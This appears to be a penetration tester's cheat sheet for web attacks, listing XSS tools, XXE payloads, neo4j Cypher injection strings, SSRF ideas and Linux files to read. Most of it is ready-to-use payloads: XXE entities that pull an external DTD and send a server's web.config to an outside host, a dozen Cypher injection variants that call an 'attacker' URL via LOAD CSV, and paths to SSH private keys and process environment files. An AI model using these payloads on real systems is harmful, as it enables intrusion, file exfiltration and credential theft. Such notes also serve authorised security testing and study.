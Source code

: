 ### XSS
- https://gist.github.com/morkin1792/8c9d2f1095d803b075e7a5a9e2aadea7
- XSStrike
- dalfox

### XXE
    - read file: 1) eval 2) ?CDATA 3) php://
```xml
<!DOCTYPE foo [
    <!ENTITY % xxe SYSTEM "http://myserver/a.dtd">
    %xxe;
]>
```

```xml
<!ENTITY % content SYSTEM "\\server\share\sites\example.com\api\web.config">
<!ENTITY % eval "<!ENTITY &#x25; send SYSTEM 'http://myserver?%content;'>">
%eval;
%send;
```

### neo4j cypher injection
```
 LOAD CSV FROM 'https://attacker' as yl
 LOAD CSV FROM 'https://attacker' as yl//
})LOAD CSV FROM 'https://attacker' as yl
})LOAD CSV FROM 'https://attacker' as yl//
' LOAD CSV FROM 'https://attacker' as yl MATCH(:Z) WHERE '3'='3
' LOAD CSV FROM 'https://attacker' as yl//
'})LOAD CSV FROM 'https://attacker' as yl MATCH(:Z{w:'3
'})LOAD CSV FROM 'https://attacker' as yl//
" LOAD CSV FROM 'https://attacker' as yl MATCH(:Z) WHERE "3"="3
" LOAD CSV FROM 'https://attacker' as yl//
"})LOAD CSV FROM 'https://attacker' as yl MATCH(:Z{w:"3
"})LOAD CSV FROM 'https://attacker' as yl//
```

### SSRF
- [cloud metadata service address](cloud.md)
- ntlm relay && brute ntlm response
- brute hosts (leaked internal ips)
- path fuzzing
- cve no client http
- https://brightsec.com/blog/ssrf-server-side-request-forgery/
- https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery

### reading internal files

#### linux
```
/proc/self/environ 
/proc/self/cmdline
/home/$USER/.ssh/id_rsa
/home/$USER/.ssh/id_dsa
/home/$USER/.ssh/id_ecdsa
/home/$USER/.ssh/id_ed25519
/home/$USER/.ssh/identity
~/.ssh/...
```
- https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt
